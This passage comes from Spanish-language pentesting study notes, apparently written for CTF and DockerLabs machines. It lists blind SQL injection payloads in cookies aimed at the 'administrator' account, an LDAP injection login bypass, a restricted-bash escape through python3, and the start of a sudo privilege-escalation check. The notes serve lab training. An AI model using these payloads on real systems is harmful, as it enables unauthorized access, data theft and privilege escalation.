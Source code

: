 cookie: ..... ' and 1=1

cookie:...... ' (select 'a' from limit 1,1)='a

cookie:...... ' (select 'a' from users where username='administrator' limit 1,1)='a

cookie:...... ' (select 'a' from users where username='administrator' limit 1,1)='a

-------------------------------------------------------------------------------

## 57.- A veces los formularios tiene funcionamiento con LDAP:

una posible vulnerabilidad sería LDAP Injection:

https://book.hacktricks.wiki/en/pentesting-web/ldap-injection.html?highlight=LDAP#ldap

user=*)(|(&
pass=pwd)

esto funciono para la máquina:

404-not-found -> dockerlabs

-------------------------------------------------------------------------------

## 58.- Si tenemos una rbash, bash con restricción tenemos que ver que comandos podemos usar, y según eso ver que poemos hacer y si tenemos python3 instalado, podemos probar con el siguiente comando:

python3 -c "import subprocess; subprocess.run('/bin/bash', shell=True)"

y si sigue con la rbas hacemos:

export PATH=/bin

-------------------------------------------------------------------------------

## 59.- formas comunes de codificar:

base32
base64

-------------------------------------------------------------------------------

## 60.- Siempre que tengamos un binario y no esté en gtfobinds lo ejecutamos para ver que hace

ejemplo :

ejecutando sudo -l

(ALL) NOPASSWD: /bin/cube

probamos:
